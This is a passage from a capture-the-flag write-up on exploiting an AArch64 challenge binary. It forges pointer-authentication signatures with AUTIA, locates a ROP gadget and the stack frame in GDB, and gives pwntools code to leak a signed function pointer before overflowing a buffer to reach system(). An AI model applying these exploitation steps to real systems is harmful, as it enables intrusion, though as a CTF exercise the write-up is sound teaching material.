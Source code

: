 Now we have the ability to sign an adbitrary pair of pointer + modifier using
the [AUTIA][aarch64-autia] instruction in `sign_op()`. We can use this to sign a
valid reuturn address for the `main()` function and use it to exploit the buffer
overflow on the buffer in `cmd_build()`.

The binary is static, and QEMU User 7.2.12 (the version we are given) does not
randomize the stack, so the `main()` function will always have the same stack
frame address. We can find it by attaching GDB to QEMU following the
instructions provided in the player's README file:

```none
gdb-multiarch --ex 'target remote :1234' -ex 'file pac'
(gdb) b *0x400e04
Breakpoint 1 at 0x400e04
(gdb) continue
Continuing.

Breakpoint 1, 0x0000000000400e04 in main ()
(gdb) x/i $pc
=> 0x400e04 <main>: paciasp
(gdb) i r sp
sp             0x5500800290        0x550080029
```

We also have the `system()` function already present in the binary since it is
used for command 5. The only thing we need is good a gadget to set the `x0`
register. Using [ROPGadget][ropgadget] (or similar tools) we can find this
gadget that does what we want:

```none
0x000000000045d860 : ldr x0, [sp, #0x90] ; ldp x29, x30, [sp], #0xc0 ; ret
```

We can now sign a fake `struct op` with `op->func = 0x45d860` and
`op->stack = 0x5500800290`:

```python
ARBITARRY_FUNC_ADDRESS  = 0x45d860
ARBITRARY_STACK_ADDRESS = 0x5500800290
# rest of the code above unchanged...
```

How do we read back the signed `op->func` pointer though? Well, it's more or
less the same thing that we just did: create an expression at index 1 that moves
the stack back until `&saved_exprs[0].ops[32].func`, validate it to sign the
ops, then overwrite it with a valid shorter expression, then execute it to
execute the old ops. This time we can use `out` instead of `in` to print the
value of the signed function pointer. Here's how it can be done:

```python
# Build expr 1 to output values going back until saved_exprs[0].ops[31].func.
# NOTE: the two "neg" at the end are to overwrite the two "in" we previously had.
r.sendlineafter(b'> ', b'1')
r.sendlineafter(b': ', b'out;out;out;out;neg;neg')
r.sendlineafter(b'? ', b'1')
# Vlidate it (will fail validation, but sign the ops)
r.sendlineafter(b'> ', b'2')
r.sendlineafter(b'? ', b'1')
# Re-build with good ops to pass validation
r.sendlineafter(b'> ', b'1')
r.sendlineafter(b': ', b'neg;neg;neg')
r.sendlineafter(b'? ', b'1')
# Evaluate it to output the forged signed pointer (saved_exprs[0].ops[31].func)
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'? ', b'1')
r.recvuntil(b'Output: ')
signed_ptr = int(r.recvline())
```


[aarch64-pacia]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/PACIA--PACIZA--PACIA1716--PACIASP--PACIAZ
[aarch64-autia]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/AUTIA--AUTIZA--AUTIA1716--AUTIASP--AUTIAZ
[aarch64-retaa]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/RETAA--RETAB
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget